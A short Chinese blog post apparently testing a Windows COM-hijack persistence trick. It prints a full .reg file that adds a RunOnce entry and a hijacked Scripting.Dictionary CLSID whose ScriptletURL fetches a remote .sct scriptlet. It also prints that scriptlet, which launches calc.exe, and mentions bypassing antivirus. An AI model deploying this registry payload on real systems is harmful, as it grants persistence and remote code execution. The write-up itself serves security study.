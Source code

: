 ### Runonce COM Hijack ###
早上在群内看见了个资源，COM劫持的。随便实验了一下

https://gist.github.com/homjxi0e/7894be4695e5f348a749ce5ec31bd314
https://twitter.com/harr0ey/status/1052405330402074624

github仓库里的内容是：
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce]

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\setup]
@="rundll32 xwizards.dll,RunPropertySheet /u {00000001-0000-0000-0000-0000FEEDACDC}"
"COM Hijacking"=""

Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\Scripting.Dictionary]
@=""

[HKEY_CURRENT_USER\Software\Classes\Scripting.Dictionary\CLSID]
@="{00000001-0000-0000-0000-0000FEEDACDC}"


[HKEY_CURRENT_USER\Software\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}]
@="Scripting.Dictionary"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32]
@="C:\\WINDOWS\\system32\\scrobj.dll"
"ThreadingModel"="Apartment"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ProgID]
@="Scripting.Dictionary"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ScriptletURL]
@="https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\VersionIndependentProgID]
@="Scripting.Dictionary"
```

发现在注册表内添加了几个键
![](https://s2.ax1x.com/2019/06/09/VrtYsx.png)

![](https://s2.ax1x.com/2019/06/09/VrtsSA.png)

![](https://s2.ax1x.com/2019/06/09/VrtoSs.md.png)

![](https://s2.ax1x.com/2019/06/09/Vrt7yq.png)

ScriptletURL链接着一个URL
[calc](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct)

打开看了一眼，发现是使用js调用ActiveXobject("WScript.Shell").Run("calc.exe") 
```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Scripting.Dictionary"
    progid="Scripting.Dictionary"
    version="1"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[

		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	
	
]]>
</script>

</scriptlet>
```

添加注册表的时候会被杀软拦截，可以使用一种让绕过杀软的办法来执行
